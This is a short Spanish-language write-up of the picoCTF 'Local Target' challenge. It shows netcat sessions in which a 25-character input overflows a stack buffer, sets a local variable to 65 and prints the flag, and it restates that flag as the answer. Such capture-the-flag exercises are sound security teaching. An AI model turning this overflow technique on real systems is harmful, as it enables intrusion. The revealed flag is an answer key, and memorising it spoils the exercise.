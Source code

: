 # Local Target

## Objetivo.

Smash the stackCan you overflow the buffer and modify the other local variable? The program is available [here](https://artifacts.picoctf.net/c/517/local-target). You can view source [here](https://artifacts.picoctf.net/c/517/local-target.c). And connect with it using:`nc saturn.picoctf.net 52447`

## Solución.

**Analizamos el archivo gdb y luego entramos a nc saturn.picoctf.net 52447**

┌──(kali㉿kali)-[~/picoctf/tercerparcial/localtarget]

└─$ nc saturn.picoctf.net 52447

```
Enter a string: BBBBBBBBBBBBBBBBBBBBBBBB

num is 0
Bye!
```

┌──(kali㉿kali)-[~/picoctf/tercerparcial/localtarget]

└─$ nc saturn.picoctf.net 52447

```
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}
```

**Bandera** {l0c4l5_1n_5c0p3_fee8ef05}

## Notas opcionales.

## Referencias.